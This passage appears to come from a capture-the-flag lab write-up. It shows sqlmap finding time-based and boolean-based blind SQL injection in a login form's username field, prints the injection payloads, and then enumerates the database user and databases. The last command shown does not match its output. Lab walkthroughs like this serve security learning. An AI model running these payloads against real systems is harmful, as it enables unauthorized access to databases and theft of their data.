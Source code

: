 Running `sqlmap` with this request finds only a time-based injection:

    
    
    oxdf@hacky$ sqlmap -r login.req --batch
    ...[snip]...
    POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
    sqlmap identified the following injection point(s) with a total of 210 HTTP(s) requests:
    ---                                                                                                                     
    Parameter: username (POST)
        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: username=admin' AND (SELECT 7458 FROM (SELECT(SLEEP(5)))rnYG) AND 'xsoH'='xsoH&password=admin
    ---  
    ...[snip]...
    

Time-based is really slow, and I know there’s a boolean-based one. I’ll
specify the technique and up the level and it finds it:

    
    
    oxdf@hacky$ sqlmap -r login.req --batch --technique B --level 5
    ...[snip]...
    POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
    sqlmap identified the following injection point(s) with a total of 137 HTTP(s) requests:
    ---
    Parameter: username (POST)
        Type: boolean-based blind
        Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
        Payload: username=admin' AND 1086=(SELECT (CASE WHEN (1086=1086) THEN 1086 ELSE (SELECT 9128 UNION SELECT 2646) END))-- -&password=admin
    ---
    ...[snip]...
    

#### Enumerate with sqlmap

Now that `sqlmap` has found the vulnerability, I can task it for more
information. For example, the current user of the DB:

    
    
    oxdf@hacky$ sqlmap -r login.req --batch --threads 10 --current-user
    ...[snip]...
    current user: 'remo@localhost'
    ...[snip]...
    

I’m using threads to speed up the process. Threads are safe with boolean, but
not time-based.

There are two databases, though one is the default for MySQL:

    
    
    oxdf@hacky$ sqlmap -r login.req --batch --threads 10 --current-user
    ...[snip]...
    available databases [2]:
    [*] information_schema
    [*] payroll_db
    ...[snip]...
    